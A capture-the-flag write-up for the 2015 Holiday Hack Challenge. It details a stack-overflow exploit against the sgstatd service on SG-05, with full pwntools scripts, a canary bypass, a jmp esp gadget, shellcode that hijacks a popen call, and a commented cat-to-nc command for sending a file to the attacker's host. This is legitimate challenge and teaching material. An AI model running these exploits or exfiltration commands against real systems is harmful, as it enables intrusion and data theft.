## Holiday Hack Challenge 2015
# Level 4-5 : Gnomage Pwnage (SG-05)

The goal for Level 4 is to get access to all 5 of the SuperGnome servers and download the **/gnome/www/files/gnome.conf** file from each of them

Login into SG-05 (54.233.105.81) using the admin credentials (admin:SittingOnAShelf)

This time around, the website looks normal
- File download has been disabled
- Files Upload is also disabled
- Settings Upload is also disabled

It seems the vulnerability is not on the website itself

Let's check if any other ports are open

> nmap 54.233.105.81 -Pn


Hmm... port 4242 is open. Try connecting to it

> nc 54.233.105.81 4242



This looks familiar! I saw similar text when I was performing "strings" on several binary files found in the filesystem dump during Level 2.

The specific file in question is **/usr/bin/sgstatd**

Before I continue, I want to bring up the startup script for this binary that was discovered during Level 2

**/etc/init.d/sgstatd**

```
#!/bin/sh /etc/rc.common
# BUGID: 570523-1
# OWNER: STUART
#  LOUISE: The sgstatd process fails to start on the Gnome hardware.
#  LOUISE: I rewrote the startup script, testing in DEV works fine. Closing ticket.
#  LOUISE changed status from OPEN to CLOSED
#  AUGGIE: Process still fails to startup, re-opening ticket.
#  AUGGIE changed status from CLOSED to OPEN
#  LOUISE: It works just find in DEV Auggie.
#  NEDFORD: Confirm process fails to startup, delegate to Stuart for resolution.
#  LOUISE: Status on this Stuart?
#  NEDFORD changed owner from LOUISE to STUART
#  NEDFORD: Can we get a status on this Stuart?
#  NEDFORD: Can we get a status on this Stuart?
#  LOUISE: Blocking on this ticket, we may have to ship without resolution.
START=98

PROG=/usr/bin/sgstatd

start_service() {
  $PROG &
}
stop_service() {
  killall sgstatd
}
```

The comments are complaining that this binary does not start on the Gnome hardware itself. If we do a "file" on it, the reason is clear

> file sgstatd

> sgstatd: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.26, BuildID[sha1]=72df753907e54335d83b9e1c3ab00ae402ad812f, not stripped

Compare this with the other binaries in the /usr/bin folder

> file sgdnsc2

> sgdnsc2: ELF 32-bit LSB executable, ARM, EABI5 version 1 (SYSV), dynamically linked, interpreter /lib/ld-musl-armhf.so.1, stripped

From Level 2, it is determined that the Gnomes use ARM CPUs. Obviously, a Intel x86 binary (sgstatd) will be unable to start. (*Nice touch SANS :) really like the story bit to explain why a x86 binary is in a ARM machine and also a x86 binary would be easier for participants to debug*)

I'm fairly confident that the vulnerability is in this binary, thus this would be a Binary Exploitation challenge. 

### Reversing sgstatd

*Note: If you downloaded the sgnet.zip file from any of the SuperGnome servers, it includes the c source code for this binary. Reading it will give a rough idea of what the program is doing*

Throw the binary into IDA Pro

The binary basically forks a child process when a new connection is connected to it and then display the "menu"

The function that handles this menu is the "child_main" function

Following the flow of the function, other than the '1', '2', '3', the function is also listening for a hidden option 'X'

When 'X' is entered into the 'menu', the text 'Hidden Command Detected!' is printed and the following functions are called



The interesting function is 'sgstatd'



The 'sgstatd' function creates some sort of stack buffer of 0x6c size and then calls sgnet_readn with 3 parameters (current socket, pointer to stack buffer and a value 0xc8)



To get a clearer idea of what those code is doing, the next step is to attach a debugger and step through the code, Fortunately, the binary is a x86 ELF binary thus theres no need to setup any emulators. I used GDB on a Kali Linux machine

### GDB Debugging

Set these 2 options for GDB when debugging this binary

> set follow-fork-mode child

As this binary forks a child process whenever a new connection is made, set this option so that GDB will continue to debug the child process instead of the parent process when the fork is called. 

> handle SIGALRM ignore

A SIGALRM is raised some time after the hidden 'X' command is received. set this to force GDB to continue debugging the process instead of raising an interrupt

Also, the binary requires a folder at '/var/run/sgstatd'. Create the folder if it complains about it

Set a breakpoint just before the call to the "_read" function in "sgnet_readn" function



The [_read](http://linux.die.net/man/2/read) function takes in 3 arguments which is the top 3 value on the stack. 
- File descriptor to read from (0x00005a99 -> connected socket)
- Buffer to write to (0xffffce7c -> pointer to the 0x6c sized stack buffer created in sgstatd function)
- Number of bytes to read (0x00000000c8)

This part of the code then loops until exactly 0xc8 bytes of data is read OR the SIGALRM is raised which will kill the process. The vulnerability should be quite clear now

The read function is writing 0xc8 bytes of data into a buffer of size 0x6c. This is a stack overflow vulnerability albeit not a very standard one

Let's try giving it 0xc8 'A's and see what happens. The following script will do just that. Do note, you need to have [pwntools](https://github.com/Gallopsled/pwntools) installed to run the following code

```py
from pwn import *
context.os = 'linux'
context.arch = 'i386'
conn = remote("127.0.0.1", 4242)

print conn.recvuntil('users')

conn.send("X")
print conn.recvuntil('!')
print conn.recvuntil('!')
print conn.recvuntil('\x00')

pwn = 'A'*0xc8
conn.send(pwn)
```



The server displays "Canary not repaired". This means theres some sort of canary. Look at the code from "sgstatd" again


Notice the following lines

```asm
...
mov[ebp+var_4], 0E4FFFFE4h
...
call sgnet_readn
mov edx, [ebp-4]
xor edx, 0E4FFFFE4h
jnz sgnet_exit
```

The canary value of 0xe4ffffe4 is placed into the buffer and checked after the sgnet_readn function call. This value needs to be maintained during the overflowing of the stack. Let's see where is it placed exactly



It is placed 104 (0x68) bytes into the buffer. Modify the pwning script to include the canary value

```py
from pwn import *
context.os = 'linux'
context.arch = 'i386'
conn = remote("127.0.0.1", 4242)

print conn.recvuntil('users')

conn.send("X")
print conn.recvuntil('!')
print conn.recvuntil('!')
print conn.recvuntil('\x00')

pwn = 'A'*0x68
pwn += pack(0xe4ffffe4)
pwn += 'B'*(0xc8-0x68-0x4)
conn.send(pwn)
```



Yay!! The program no longer complains about the canary value. Furthermore, there is now a segmentation fault with the address of 0x42424242. 0x42424242 is basically 'BBBB' which is part of our input. This means we have EIP control

If you follow the code from the previous breakpoint that was set, we find out that the overflow actually overwrote the return function pointer in sgstatd function. This pointer is located just 4 bytes after the canary value as shown below



We can confirm it with the following script

```py
from pwn import *
context.os = 'linux'
context.arch = 'i386'
conn = remote("127.0.0.1", 4242)

print conn.recvuntil('users')

conn.send("X")
print conn.recvuntil('!')
print conn.recvuntil('!')
print conn.recvuntil('\x00')

pwn = 'A'*0x68
pwn += pack(0xe4ffffe4)
pwn += 'BBBB'	# this will go into ebp due to 'leave'
pwn += 'CCCC'	# this will go into eip due to 'ret'
pwn += 'D'*(0xc8-0x68-0x8)
conn.send(pwn)
```



We can now put any value into EIP thus redirecting the program flow to anywhere we want. But where do we direct it to exactly? 

Do note that these stack addresses that we see could be different for different machines thus it is not possible to hardcode any of these stack addresses. Luckily the binary itself is not ASLR'ed, so it is possible to hardcode program code addresses (around 0x0804???? range) directly.

This was where I was stuck for awhile until [@_jsoo_](https://twitter.com/_jsoo_) gave me the idea to use 'jmp esp' as a stack flip. This will redirect the program flow onto the stack and since I already have control of the stack, I could then put any code in there. So the next question is where can I find a 'jmp esp' instruction? Let's try looking at the binary itself

I used [ROPGadget](https://github.com/JonathanSalwan/ROPgadget) to help me find it

> ROPgadget --binary sgstatd --only jmp

```
Gadgets information
============================================================
0x0804936b : jmp esp

Unique gadgets found: 1
```

The following script would redirect the program flow onto the stack itself

```py
from pwn import *
context.os = 'linux'
context.arch = 'i386'
conn = remote("127.0.0.1", 4242)

print conn.recvuntil('users')

conn.send("X")
print conn.recvuntil('!')
print conn.recvuntil('!')
print conn.recvuntil('\x00')

shellcode = ''

pwn = 'A'*0x68
pwn += pack(0xe4ffffe4)
pwn += 'BBBB'	# this will go into ebp due to 'leave'
pwn += pack(0x0804936b)	# EIP Control here
pwn += shellcode # jmp esp will land here!
pwn += 'D'*(0xc8-0x68-0x8-len(shellcode))
conn.send(pwn)
```

Now, we just need some shellcode. 

At this point, you could try to find some sort of shellcode to exfiltrate the data on the many shellcode repositories out there. However, I wanted to try something else as I noticed something interesting earlier

### Designing the Shellcode

Earlier during the "menu" selection, what happens if we entered '1','2','3' command instead of the hidden 'X' command?



Based on whether '1', '2', '3' is entered, a different command line string is passed to a [popen](http://linux.die.net/man/3/popen) call which basically pipes, forks and invokes a shell using the command provided.

It takes in 2 arguments, both of which are Strings (char*)
- command to execute
- type of pipe ('r' for read, 'w' for write)

The plan is to reuse these codes. We need to setup 2 strings, one for the command and one for the 'r' and then jump to the popen call (0x08048e42). In this way, we could achieve something similar to a command line injection payload which whould allow the changing of command to be more convenient.

Let's look at what our payload looks like now



The idea is to put the command string into block1 and the shellcode into block2. The 'r' string will be pushed onto the stack in the shellcode. Also, do note that the EBP register needs to be restored as the code following after the 'popen' call relies on it to get to the correct socket identifier



At first, I thought of using a layout like the above but this cannot work because EIP and ESP will eventually become the same. Any changes to the values around ESP would change the instruction bytes and this will mess up the shellcode. The following layout is more stable (kudos to [@_jsoo_](https://twitter.com/_jsoo_) again for the 'sub esp' idea)


EIP will be pointing to the shellcode2 block while ESP will remain in the shellcode1 block. Changes to values around ESP would not affect the instruction bytes around EIP

The 2 shellcode block will consists of the following

**shellc1.asm**

```asm
sub esp, 0x74
jmp esp
```

**shellc2.asm**

```asm
lea ebp, [esp+0x4ec] 	/* restore the EBP, offset to 'child_main' valid ebp */
lea eax, [esp+0x79]		/* offset to commandstr */

push 0x72				/* push 'r\x00' onto the stack */
mov ebx, esp

push ebx 				/* arg 2 'r' */
push eax 				/* arg 1 commandstr */
push 0x08048e42			/* address to popen call */
ret 					/* ret to put the above address into eip*/
```

### Exploit it!!

I used the shellcraft module included with pwntools to compile the assembly code. The [final exploitation script](pwn5.py) looks like this

```py
from pwn import *
context.os = 'linux'
context.arch = 'i386'
conn = remote("127.0.0.1", 4242)
#conn = remote("54.233.105.81", 4242) # SG-05 server

print conn.recvuntil('users')
conn.send("X")
print conn.recvuntil('!')
print conn.recvuntil('!')
print conn.recvuntil('\x00')

tmpfile = open("shellc1.asm", "r")
tmp = tmpfile.read()
subesp = asm(tmp)

scfile = open("shellc2.asm", "r")
sc = scfile.read()
shellcode = asm(sc)

pwn = shellcode
pwn += 'A'*(0x68-len(shellcode))
pwn += pack(0xe4ffffe4)
pwn += 'BBBB'
pwn += pack(0x0804936b) #eip control here! jmp esp which is pointing to the below instructions
pwn += subesp
cmd = "/bin/netstat -tan\x00"
#cmd = '/bin/cat /gnome/www/files/gnome.conf | /bin/nc YOUR_PUBLIC_IP YOUR_PUBLIC_PORT\x00'
pwn += cmd
pwn += 'C'*(0x56-len(subesp)-len(cmd))

print '----'
print 'Sending payload'
print '----'

conn.send(pwn)
pause(9)	# pause to keep the socket alive. program will write reply into the socket
results = conn.recvall()
print results

fh = open('results', 'w')	# write response to file, handles file downloads
fh.write(results)
fh.close
```

It works perfectly on the local copy of the binary. Running it against the actual server



We have command injection on SG-05!!

Now change the 'cmd' string to any command line you would like to perform. During my testing, '/bin/cat /gnome/www/files/gnome.conf' is a little unreliable. Sometimes it fails, sometimes only 1 line is returned, sometimes the whole file is returned. I'm not sure what is wrong.



A more reliable way to exfiltrate the data (espeically for the zip files) is to use nc. I've included the cat+nc cmd in the comments of the exploitation script. Of course, you will need a public facing IP to setup a nc listener

[SG05_gnome.conf](SG05_gnome.conf)

```
Gnome Serial Number: 4CKL3R43V4
Current config file: ./tmp/e31faee/cfg/sg.01.v1339.cfg
Allow new subordinates?: YES
Camera monitoring?: YES
Audio monitoring?: YES
Camera update rate: 60min
Gnome mode: SuperGnome
Gnome name: SG-05
Allow file uploads?: YES
Allowed file formats: .png
Allowed file size: 512kb
Files directory: /gnome/www/files/
```

PS: Also download the factory_cam_5.zip and 20151215161015.zip for Level 5 too 